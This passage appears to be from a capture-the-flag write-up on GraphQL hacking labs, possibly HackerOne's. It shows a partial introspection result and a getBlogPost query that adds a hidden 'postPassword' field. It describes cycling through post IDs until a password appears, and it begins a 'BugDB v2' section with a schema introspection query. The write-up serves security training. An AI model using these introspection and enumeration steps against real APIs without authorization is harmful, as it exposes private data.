 ```html
                  "kind": "SCALAR",
                  "name": "Int",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "image",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            ...
```

- Let's paste full result into graphql-visualizer -> http://nathanrandal.com/graphql-visualizer/ to vizualize it and try to find a field we will need
- Open any post to have a sample of query and next put it in the repeater and update query with field we need:

```html
query getBlogPost($id: Int!) {
    getBlogPost(id: $id) {
        image
        title
        author
        date
        paragraphs
        postPassword
    }
}
```

- In the main request window change ID till you find a post with a password and that's it!

#### BugDB v2 (HackerOne)
First let's check what we have (no need to find an endpoint here) using query:

```html
{__schema{types{name}}}
```

